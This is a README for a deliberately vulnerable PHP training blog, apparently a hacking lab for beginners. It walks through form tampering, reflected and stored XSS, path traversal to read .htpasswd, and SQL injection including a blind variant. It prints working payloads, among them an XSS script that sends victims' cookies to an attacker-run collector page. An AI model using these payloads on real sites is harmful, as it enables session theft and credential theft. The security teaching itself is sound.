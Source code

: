 # Fake blog to hack for newbie training

## Overview

This is a fake blog that has many kinds of web vulnerabilities. This is usefull because it can be use to teach to newbies that web vulnerabilities exist and can be very damaging.

## Warning

It can be installed on a typical LAMP installation. You MUST NOT installed it on a production server or any server or network that should not be compromised. REMEMBER that the vulnerabilities on this application are REAL VULNERABILITIES. I am NOT RESPONSIBLE for what you do with it. 

## How to install it

The `blog_hack/` directory or the content of it have to be downloaded to your Apache `www` directory. Often, it is located to `/var/www/` on GNU/Linux system. 

You should edit the `blog_hack/init.php` file with your MySQL information. The default password of the admin user is `salut123`.

The `blog_hack/admin` directory has an `.htpasswd` file. The `admin` user password is `admin`. If you want to modify it, you must encrypt it if you are on GNU/Linux because Apache force to do so.

## How to use it

Here is a list of all vulnerabilities on this blog. If you don't want to know them because you want to discover them by yourself, you should stop reading this right now and begin to play with the application. Remember, you're not supposed to know the default credentials mentionned above.

### Form validation vulnerability

First of all, there is a form validation vulnerability in the subscription form. What you have to do is to submit the first form with "Level 1" account and then you arrive on a second page which is a hidden form. If you check the source, you'll see that there is a `type` field and a `total` field. So if you check in the first form for the values, you'll see that the value for the level 2 is 2. But here's the trick, you have to modify the `type` field in the second form with a value of 3 instead of 1 or 2 and you must not modify the `total` field because, in the validation, only the `total` field is validated but not the `type` field but what's inserted in the DB is the `type` field. Then, you submit the hidden form. You normally should be able to comment on blog article.

### XSS vulnerability

A XSS (means Cross-site scripting) vulnerability is a vulnerability that permits the user to inject some Javascript in a web page. Mainly, if you discover a XSS in a web site, you're able to steal user cookies, use them to connect to the web site as them and having access of all information that the user has access.

#### Non-persistent XSS

In the blog members list, you can search for members on the web site. If you enter quotes in the search field, you can end the html input tag and begin a script tag.

In the root directory of this repo, there is a `cookies.php` file and a `cookies.html` file. You have to download these 2 files to the web server of your choice. You can choose the same web server that you put the `blog_hack` site. Basically, what the `cookies.php` file does is to take a GET request with a parameter named `c` and writes it to the `cookies.html` file. You have to be sure that the `cookies.php` script has rights to write to the `cookies.html` file. I don't know the exact right that these files need to have so you can do a `chmod 777 cookies.php cookies.html` to be sure. You also can do that via FTP if you want.

So, all is in place. Let's the hacking begin! The goal of the manipulations here is to create an URL to send to a user that will redirect him to the `cookies.php` file with his cookie in the `c` parameter. Here is what you have to enter in the search field: `"> <script>document.location = "http://yourdomain/your/path/cookies.php?c=" %2b document.cookie;</script>`. The `%2b` is simply url encoded version of the `+` character; if we don't url encode it, it will be replaced by a space by your web browser if you enter it in the URL bar instead of the search field. If you enter it in your browser, you'll send your own cookies to you. Normally, the goal is to send an URL that contains this search to a user but this is not covered in this demonstration.

#### Persistent XSS

A persistent XSS is exactly the same as a non-persistent XSS except that the persistent XSS is inserted in a DB and all user that arrive on a certain page will be victim of the XSS. So, there is a persitent XSS in the comment section of each blog entry. The exploit technique is absolutly the same except you don't have to send a URL to a user and just wait that someone came to the page.

### File inclusion vulnerability

File inclusion vulnerabilities are vulnerabilities that can able an attacker to include a file not supposed to be include in the page. A classic example of this vulnerablity is a web site that take a parameter `page` in the URL to show the good page to the client. The URL usually looks like `http://mywebsite.com/index.php?page=home.php`. So, if the developper didn't secure his function, it is possible to include many files often on the server itself. More rarely, you could be able to include an external file and then execute the content of this file by PHP so doing what you want on the server.

So, what do we have here? There is a `page` parameter. If you try to write anyting else in this parameter, you'll see that the `.php` is added at the end of the include function. It's not very convenient. Also, you can notice that you're not able to include external files because the include file begin with `./include/`. But, if we look for vulnerabilities in the include function of PHP, we'll find that `include` had a vulnerability, in old version of PHP, that permitted to skip the end of the include string by inserting a NULL byte in the string because PHP stopped reading the string if it read a NULL byte. 

So now, we know we can possibly\* include any files on the web server if the user that executes PHP has the right to read these. Of course, if the system administrators are very dump, we could read the `/etc/shadow` and `/etc/passwd` files. But let's suppose they're not for the case here. If you do some tests on the website, you may have discovered there is a `admin/` URL with a username and a password. So, to discover what are the credentials, we use the file inclusion vulnerability we discovered and we do an URL like this: `index.php?page=../admin/.htpasswd`. And boom, we now have a hashed version of the admin user password. You can now use any tool that crack hashes and will discover that the password is `admin`.

To explain the URL, the first two dots (`../`) are there because if you remember the include string was begining with `./include/` so we need to come back because we want to go in the `./admin/` directory and not the `./include/admin/` directory. Finally, the `.htpasswd` file is the standard file for Apache HTTP password configuration (Htaccess).

\* In this case, this vulnerability is simulated. This is the only simulated vulnerability because this vulnerability has already existed but is not anymore available.

### SQL injection

The goal of this vulnerability is to inject SQL statement into SQL queries that are not intended to. To be able to exploit SQL injection, you have to know some basis of SQL. A classic SQL injection is when you have a login form that don't escape character in the username. Let's think how the SQL query might be build to verify if the user and the password match: `"SELECT * FROM users WHERE login = '".$_POST['login']."' AND password='".md5($_POST['password'])."'"`(in PHP). So, to bypass this verification, you can see that the login field is not verified against injection so you can inject any SQL fragment you want. Then, one injection that could bypass this verification could be `admin' #`. The single quote after the username is because we have to clause the SQL string opened in the query. Finally, we have a hashtag character because we don't want that SQL verifies the password we entered so the hashtag is just a comment for the rest of the line.

#### Classical SQL injection in the fake blog

In the blog, there is two SQL injection. The first one is a more classical injection. If you go in the members list page and click on one member, you'll have an URL that looks like that: `index.php?page=profile&id=1`. So, if you play a little with the id parameter, you'll see that it can generate SQL error if you let a number at first character. The trick to exploit this SQL injection is to put a number that don't exist as an ID for a user in the database. With guessing, you'll arrive with that string: `-1 UNION SELECT id,login, password FROM user`. You could have found the name of the tables by guessing because they are very simple and usual or you could have found these by querying the MySQL catalog (see at the end of this text).

#### Blind SQL injection

The second one SQL injection in the blog is called a "Blind SQL injection". The qualifier "blind" simply means that you can't directly see what you want to see; you have to find a clue about what you have like a blind person do with a stick. More formally, a blind SQL injection is when you can have a boolean clue about what is executed in the SQL query. For instance, if you have a page saying that your answer is wrong and with a good SQL injection, the page says that your answer is good then you have a blind SQL injection.

In the blog, you maybe have notice there is a message in the bottom of each that says: "The browser you are currently using is not supported by our blog. This may cause some bugs. This message will disappear once you have a good browser.". In web hacking, it is important to know how HTTP works. With a message like that, normally, you'll think about HTTP user-agent and you're right. You can also guess if your browser provide a good HTTP user-agent, the message will disappear as said in the message. So, if you tried to inject some data like quote (') in the user-agent, you'll see SQL errors.

The goal here is to inject SQL fragment and see if the message disappears or not. Usually, you try to find how long the string in the database is first. Then, you try to brute-force each by each character of the string by a set of characters you choose. After that, you have all you need. For the first step, you can use the `LENGTH(mycolumn)` SQL function and compare it with a range of number until it return true. For the second step, you can use the `SUBSTRING(mycolumn, i, 1)` SQL function where `i` is the index of the character in the string to brute-force and also compare it with a set of characters you choose. You can see all that in the "Exploit\_Blog\_hack.php" file where the attack is made to find the password of the admin user.

## Others

### MySQL catalog

### Useful tools in web haking

### Instinct

### Useful links
